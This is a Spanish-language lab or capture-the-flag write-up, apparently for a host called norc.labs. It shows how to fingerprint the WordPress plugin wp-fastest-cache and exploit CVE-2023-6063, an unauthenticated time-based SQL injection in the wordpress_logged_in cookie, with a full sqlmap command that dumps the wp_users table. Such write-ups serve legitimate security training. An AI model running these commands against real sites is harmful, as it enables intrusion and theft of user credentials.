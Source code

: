 ~~~ bash
curl -sL http://norc.labs/wp-content/plugins/wp-fastest-cache/readme.txt | grep "Stable" | awk -F ':' '{print $2}' | xargs echo 'version: '
~~~

![[Pasted image 20241030002631.png]]
Busqué en internet por exploits hasta que me encontré que `wp-fastest-cache`, posee un CVE para la versión que se está ejecutando en esta máquina

- https://wpscan.com/blog/unauthenticated-sql-injection-vulnerability-addressed-in-wp-fastest-cache-1-2-2/


# Explotación 
---

## CVE-2023-6063 - Unauthenticated Time Based SQL Injection

Esta vulnerabilidad es de tipo `Time Based`, por lo que podremos saber si nuestras consultas se ejecutan mediante una espera por parte de la respuesta del servidor

**En este caso, tendríamos una cookie que es vulnerable, `wordpress_logged_in`**

- Prueba de concepto: https://github.com/motikan2010/CVE-2023-6063-PoC

Vemos que incluso está presente en `norc.labs`

![[Pasted image 20241030131924.png]]
## SQLmap

Haremos una explotación mediante la herramienta `sqlmap`, que hará que el ataque sea más fácil, pero intentaremos entender cómo funcionan las consultas que envía

### wp_users

Asumiremos que existe una base de datos `wordpress`, entonces debemos ajustar `sqlmap` para que haga consultas a esta base de datos

~~~ bash
sqlmap --dbms=mysql -u "http://norc.labs/wp-login.php" --cookie='wordpress_logged_in=*' --level=2 -D wordpress -T wp_users --dump --batch
-v2
~~~

- `--dmbs`: Definir el motor de base de datos, en este caso `mysql`
- `-u`: URL
- `--cookie='wordpress_logged_in=*'`: Asignar una cookie a la consulta, **esta cookie es vulnerable a SQL Injection**
- `*`: Valor donde se ingresa el `payload`, en este caso, en la cookie `wordpress_logged_in`
- `--level`: Indica el nivel de intensidad en las pruebas
- `-D`: Especificar el nombre de la base de datos
- `-T`: Nombre de una tabla
- `--dump`: Listar los registros
- `--batch`: Omitir las preguntas al usuario
- `-v2`: Ver información por consola
